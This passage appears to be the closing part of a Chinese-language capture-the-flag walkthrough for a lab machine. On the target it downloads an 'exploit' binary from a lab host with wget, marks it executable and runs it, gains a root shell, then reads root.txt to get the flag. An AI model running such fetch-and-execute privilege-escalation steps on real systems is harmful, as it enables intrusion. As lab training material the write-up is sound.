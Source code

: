 ```bash
# dev
cd /tmp
wget http://10.0.2.4:8888/exploit
chmod +x exploit
./exploit
```

我这边重启了一下靶机，重新来了一次：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541087.png" alt="image-20240324153932074" style="zoom:33%;" />

获得了rootshell！！！

### 寻找flag

```bash
# whoami;id
whoami;id
# root
# uid=0(root) gid=0(root) groups=0(root),1000(dev)
cd /root
cd /root
ls
# ls
# 1  root.txt  script.sh
cat script.sh
# cat script.sh
# cd /opt/gitea && docker-compose down
# cd /opt/gitea && docker-compose up -d
# systemctl enable --now ssh.service
cat root.txt
# cat root.txt
# 008b138f906537f51a5a5c2c69c4b8a2
```

